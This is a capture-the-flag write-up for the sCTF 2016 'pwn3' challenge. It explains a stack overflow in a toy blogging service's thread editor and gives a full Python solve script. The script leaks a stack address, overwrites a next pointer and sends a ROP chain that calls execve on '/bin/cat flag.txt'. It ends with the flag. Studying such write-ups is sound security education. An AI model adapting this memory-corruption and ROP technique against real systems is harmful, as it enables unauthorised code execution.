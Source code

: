 ## pwn3 - 160 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2016-4-15

### Problem ###
A nice, simple blogging system. Have fun!
`nc problems2.2016q1.sctf.io 1339`

### Hint ###
If nobody can figure it out, I'll consider giving a hint ;)

## Answer ##

### Overview ###
Figure out how to cause a buffer overflow and create a system call for execve on `/bin/cat flag.txt`

### Details ###

This program had a way bigger vulnerable function than the rest so I won't be putting it in here, but the jist is that it had a menu for adding, editing, and printing "threads".

The vulnerability lies within the editing of a thread as they are placed on the stack in a more memory efficient way which allows for overwrites of following threads.

Once two threads have been created the first one can be edited to have more info than previously contained, this will overwrite the id and next pointer and potentially more of the data of the thread. 

However my exploit is dependant on the stack pointer so I made a script to be able to grab the stack pointer when the first next address is printed from the list of threads. Every other stack address is calculated relative to that.

Heres my commented solve script:

```python
rop = ''

import struct
def get_addr(addr):
	return struct.pack('<L', addr)

import socket

# My local first address, for testing.
first_addr = 0xffff45d0

# Let's sploit
sock = socket.socket()
sock.connect(('problems2.2016q1.sctf.io', 1339))

wr = sock.send
sock.recv(8192)
sock.recv(8192)
print 'writing'
# Create two threads.
wr('1\nad\nasd\nasd\n1\nasd\nasd\nasd\n')
sock.recv(8192)
wr('3\n')
sock.recv(8192)

# Get the stack ptr
outpt = str(sock.recv(8192))
print outpt
adr = outpt.find(': 0x')
outpt = outpt[adr+4:outpt.find('\n',adr)]
print outpt
first_addr = int(outpt,16)

# Set the next ptr of the second thread.
wr('2\n0\nAAAAAAB' + get_addr(first_addr - (0xffff45d0-0xffff4060) - (0x65)) + '\n')
print sock.recv(8192)

# To avoid getting carpal tunnel from writing 'get_addr' so many times
ga = get_addr

# Rop equivalent of a nop sled to allow the code after the fgets
# to write to some memory in the .bss section
rop += (ga(0x806f511) + (ga(0x80ec170) + ga(0x80ec169)))*5

# Write "/bin/cat",0,"flag.txt",0 somewhere
CAT = '/bin/cat\0'
FLAGTXT = 'flag.txt\0'
MEM = CAT+FLAGTXT
BIN_SH = 0x80ec190
rop += ga(0x804fbf0) + ga(0x8049408) + ga(BIN_SH) + ga(len(MEM)+1) + ga(0x80eb360)

MEM += ga(BIN_SH) + ga(BIN_SH+len(CAT)) + ga(0)
rop += ga(0x804fbf0) + ga(0x8049408) + ga(BIN_SH-13) + ga(13) + ga(0x80eb360)

# Set eax to oxb
rop += ga(0x80bb926) + ga(0xb)
# Set ecx and ebx
rop += ga(0x806f511) + ga(BIN_SH-13) + ga(BIN_SH)

# Set edx to some shit
rop += ga(0x806f4ea) + ga(0x80ec0b0)

# int 0x80
rop += ga(0x806fbc0)

# Add another thread so that the thread count is 3 and we can edit the third thread (pointed to by our modified next pointer) and rop chain.
wr('1\na\nd\nasd\n')
wr('2\n8\n' + rop + '\n')
wr(MEM + '\n')

# Get all the output from the server.
print sock.recv(8192)
print sock.recv(8192)
print sock.recv(8192)
print sock.recv(8192)```

Some other notes:

I wrote my code to exploit the return address of the edit thread function rather than the menu, this is so that I have less worries about the space on the stack and also I don't need to worry about the stack cookie if I'm off by a few bytes (I do really shite arithmetic).

Running that script alone will garner the flag.

Sorry for the kinda lack of analysis, the function is just massive and I don't want to bloat the write up size, if you download the binary the function is `menu()` and theres just a huge buffer for threads on the stack.

### Flag ###

The flag is `sctf{h34p_0n_th3_st4ck_EZPZ}`

